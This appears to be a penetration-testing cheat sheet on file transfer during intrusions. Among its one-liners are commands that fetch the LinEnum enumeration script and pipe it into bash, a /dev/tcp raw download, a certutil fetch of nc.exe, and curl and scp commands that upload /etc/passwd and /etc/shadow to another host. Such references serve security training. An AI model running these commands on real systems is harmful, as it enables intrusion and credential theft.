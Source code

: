 Download a file using cURL:
```shell
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Fileless download and execution in memory using cURL:
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Download a file using bash:
```shell
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3
```

Downloading files over SSH using scp:
```shell
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

Downloading a file using certutil:
```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

# File Upload
---

Upload multiple files using cURL:
```shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Upload a file over SSH using scp:
```shell
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

Code
---
Download a file using Python2:
```shell
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

Download a file using Python3:
```shell
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

PHP download with File_get_contents():
```shell
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
